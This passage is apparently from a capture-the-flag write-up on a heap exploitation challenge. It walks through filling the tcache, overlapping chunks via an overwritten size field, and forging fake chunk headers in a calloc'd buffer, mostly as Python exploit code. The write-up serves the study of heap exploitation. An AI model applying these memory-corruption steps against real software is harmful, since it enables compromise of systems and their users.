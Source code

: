 Then, I fill the tcache of size (0x90 + 0x10) up, and I make 4 chunk of this size, which will be free into unsorted bins.
```
for i in range(0, 7):
    buy_house(7, 0x90, "\x11" * 0x90)
    sell(7)

#unsorted bin
buy_house(4, 0x90, "\x44" * 0x90)
buy_house(5, 0x90, "\x55" * 0x90)
buy_house(6, 0x90, "\x66" * 0x90)
buy_house(7, 0x90, "\x77" * 0x90)


```
Than, I free the chunk(the size of which is overwrite with 0x8d1) at 0x15d0. So a big unsorted bin is list.
```
sell(1)
```

![](./index_files/bbf2e852-9fbf-47d9-bd8a-605a59e2ddb2.png)

Then, I calloc the chunk of (0x8d0 - 0x10) to get the chunk again. Which is the most import is that, we then free the chunk of **house 4** and **house 6** to make them into unsorted bins.
```
buy_house(1, 0x8c0, "\xbb" * 0xa0 +
          p64(0) + p64(0xa1) + "\xcc" * 0x90 +
          p64(0) + p64(0xa1) + "\xdd" * 0x90 +
          (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
          p64(0) + p64(0xa1) + "\x44" * 0x90 +
          p64(0) + p64(0xa1) + "\x55" * 0x90 +
          p64(0) + p64(0xa1) + "\x66" * 0x90 + 
          p64(0) + p64(0xa1) + "\x77" * 0x90 )
#pause()
sell(4)
sell(6)
```
